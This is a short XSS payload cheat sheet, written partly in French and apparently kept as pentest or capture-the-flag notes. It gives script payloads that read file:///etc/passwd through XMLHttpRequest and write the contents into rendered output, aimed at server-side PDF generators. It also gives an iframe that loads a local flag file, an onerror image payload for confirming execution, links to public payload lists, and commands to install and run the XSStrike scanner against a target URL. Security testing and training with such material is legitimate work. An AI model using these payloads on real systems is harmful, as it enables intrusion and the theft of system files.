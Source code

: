 ```JAVASCRIPT
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(‘GET’,’file:///etc/passwd’);x.send();</script>
```

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

### XSS Server side / LFI avec iframe (Tester sur Generateur de PDF)

```javascript
<iframe src=file:///flag.txt></iframe>
```


### Vérifier que le script est exécuté sur le domaine actuel et non pas en sandbox (empêche les attaques XSS)

```javascript
"><img src=x onerror=prompt(document.domain)>
```

## **Liste complète de payloads ++** 


https://github.com/payloadbox/xss-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md



---
# **Auto Discovery**

## *XSStrike*

https://github.com/s0md3v/XSStrike
#### Install

```bash
git clone https://github.com/s0md3v/XSStrike.git;
cd XSStrike;
python3 -m venv .venv;
source .venv/bin/activate;
pip install -r requirements.txt;
python3 xsstrike.py
```

#### Run

```bash
python3 xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
